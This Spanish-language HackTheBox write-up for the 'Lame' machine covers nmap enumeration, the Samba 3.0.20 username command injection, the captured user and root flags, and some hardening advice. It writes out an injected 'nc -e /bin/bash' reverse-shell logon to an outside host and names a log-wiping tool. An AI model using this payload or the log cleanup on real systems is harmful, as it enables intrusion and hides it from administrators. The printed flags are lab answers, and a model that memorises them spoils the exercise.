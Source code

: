 ```yaml
---
title: HackTheBox Lame
date: 2021-09-08 12:00:00 -0400
image: 
  src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/banner.png
  height: 1100
  width: 500
categories: [HTB Writeups, Linux Easy]
tags: [injection, smb, cms, rce]
---
```



## Enumeración

**System IP: 10.10.10.3**

## Matriz de la maquina

Esta matriz nos muestra las características de explotación de la maquina.

![Matriz de la maquina](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/matrix.png)


**Enumeración de servicios**


Server IP Address | Ports Open
------------------|-----------------------------
10.10.10.3        | **TCP**: 21,22,139,445,3632

**Nmap Scan Resultados:**

Usando el siguiente comando para enumerar las versiones y servicios que corren en cada puerto luego de hacer un escaneo de puertos abiertos.

```bash
nmap -A -n -Pn -p21,22,139,445,3632 10.10.10.3
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-28 21:12 EDT
Nmap scan report for 10.10.10.3
Host is up (0.12s latency).

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

```

## Identificación de vulnerabilidades

Como podemos observar, en el puerto 445 corre la version 3.0.20 de samba, entonces hacemos una búsqueda en searchsploit con el comando searchsploit samba 3.0.20.

![Busqueda en searchsploit de la versión de samba](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/search.png)

Para no usar metasploit analizamos el codigo del exploit con el comando searchsploit -x 16320 y encontramos el payload que se aplica en el input del username al momento de logearse.

```bash
username = "/=`nohup " + payload.encoded + "`"
```

Código de la prueba de concepto: [16320.rb](https://github.com/offensive-security/exploitdb/blob/master/exploits/unix/remote/16320.rb)


## Acceso al sistema

Para poder acceder al sistema ya sabemos que comando tenemos que ejecutar al momento de introducir el usuario en el servicio samba, pero primero debemos saber en que servicios compartidos podemos acceder, para eso ejecutamos el comando smbmap -H 10.10.10.3 y encontramos que el recurso tmp permite leer y escribir, entonces accedemos con el comando smbclient \\\\10.10.10.3\\tmp  y escribimos el siguiente comando.

Este es el resultado después de acceder al recurso compartido de tmp.

![Accediendo al recurso compartido tmp](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/tmp.png)

```bash
logon "/=`nohup nc -e /bin/bash 10.10.14.2 444`"
```
Este payload establecerá una reverse shell en nuestra maquina victima a traves del puerto 443, entonces antes de ejecutar este comando nos ponemos en escucha por este puerto con el comando nc -nlvp 444.

![Obteniendo acceso como root](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/axes.png)

Luego hacemos el tratamiento de la tti para obtener una bash interactiva .


Finalmente obtenemos acceso como root, y procedemos a buscar el user y root txt.


**Prueba de obtención del user.txt**

flag: 7ef6fe278f3e5dbf81838fda2aab55d4



![Prueba del User.txt](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/usertxt.png)



## Escalamiento de privilegios

Al haber obtenido acceso como usuario de máximos privilegios con el exploit ejecutado, esta fase se omitirá

**Prueba de obtención del root.txt**

flag: 4aae3f0d424655df2b0e7585d98844bb



![Prueba del root.txt](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/lame/roottxt.png)



## Técnicas Post-explotación


**Limpiando nuestros registros de actividades dentro de los logs**

Usando la herramienta automatizada [Covermyass](https://github.com/sundowndev/covermyass) que se basa en un script de shell para cubrir pistas en sistemas UNIX. 



## Técnicas de Hardening

+ Siempre actualice y parchee su software En este método de explotación, aprovechamos las vulnerabilidades divulgadas públicamente que tienen actualizaciones de seguridad y parches disponibles. 

+ Los puertos de Samba no deben ser expuestos Utilice un firewall para denegar el acceso a estos servicios desde fuera de la red. Además, restrinja el acceso a su servidor solo a usuarios válidos y deshabilite el acceso WRITE si no es necesario. 

Gracias por leer y happy hacking!